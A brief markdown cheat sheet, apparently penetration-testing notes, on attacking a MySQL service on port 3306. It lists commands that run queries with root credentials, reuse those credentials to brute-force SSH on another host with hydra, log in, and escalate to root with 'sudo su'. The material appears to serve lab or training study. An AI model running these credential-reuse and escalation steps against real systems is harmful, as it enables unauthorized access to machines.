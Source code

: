 # MySQL: Port 3306

1. Run SQL queries in a non-interactive shell
   
    ```bash
    mysql -uroot -pPassword123 -e 'show databases;'
    ```

2. Using MySQL credentials attempt to SSH into other machines

    ```bash
    grep -v '^#' /etc/ssh/sshd_config | uniq
    hydra -l username -p Password123 10.11.1.71 ssh
    ssh username@10.11.1.71
    ```

    ```bash
    id
    sudo -l
    sudo su
    id
    ```

    ```bash
    su username
    ```
